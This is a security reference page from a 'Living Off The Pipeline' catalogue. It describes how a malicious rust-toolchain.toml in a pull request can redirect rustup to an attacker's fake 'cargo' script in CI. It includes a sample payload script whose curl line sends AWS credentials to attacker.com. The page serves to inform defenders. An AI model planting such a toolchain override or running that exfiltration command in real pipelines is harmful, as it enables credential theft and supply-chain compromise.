 ```yaml
---
layout: tool
title: rustup
parent: Living Off The Pipeline
nav_order: 36
---
```


## Living Off The Pipeline - rustup

`rustup` is the official toolchain manager for the Rust programming language. It can be abused as a "Living Off The Pipeline" (LOTP) tool by processing a malicious `rust-toolchain.toml` file, leading to Remote Code Execution (RCE).

### First-Order LOTP Tool

`rustup` is a **First-Order LOTP Tool**. It provides direct RCE by design, as its configuration file can be used to redirect the toolchain to an attacker-controlled, executable script.

#### Malicious Primitive: Remote Code Execution (RCE)

The `rust-toolchain.toml` file is a repository-local configuration file that tells `rustup` which version of the Rust toolchain to use. In addition to specifying a version number, this file supports a `path` key. This key instructs `rustup` to use a custom toolchain located in a specific directory within the repository.

An attacker can create a malicious `rust-toolchain.toml` file that points to a directory containing a malicious script named `cargo` (or `cargo.exe`). When any standard `cargo` command is run in the CI/CD pipeline, the `rustup` shim will find the malicious configuration, execute the attacker's script instead of the real `cargo` binary, and achieve RCE.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request containing:
    *   A `rust-toolchain.toml` file with a malicious `path` directive.
        ```toml
        # rust-toolchain.toml
        [toolchain]
        path = "./fake-toolchain"
        ```
    *   A directory containing the malicious payload, disguised as the `cargo` binary.
        ```bash
        # fake-toolchain/bin/cargo
        #!/bin/sh
        curl --data-binary @$HOME/.aws/credentials http://attacker.com/
        ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to build the Rust project.
    ```yaml
    - name: Build project
      run: cargo build
    ```

3.  **Execution:**
    *   The `cargo build` command is executed.
    *   The `rustup` integration, which shims the `cargo` command, detects and reads the `rust-toolchain.toml` file.
    *   It finds the `path` directive and looks for the `cargo` executable inside the `./fake-toolchain/bin` directory.
    *   It finds and executes the attacker's malicious script instead of the real `cargo`.
    *   The attacker's `curl` command runs, exfiltrating credentials.

This attack is dangerous because the CI/CD workflow file is benign. The malicious payload is hidden in a configuration file that hijacks the entire toolchain.

### References

*   [The `rust-toolchain.toml` file](https://rust-lang.github.io/rustup/overrides.html#the-toolchain-file)
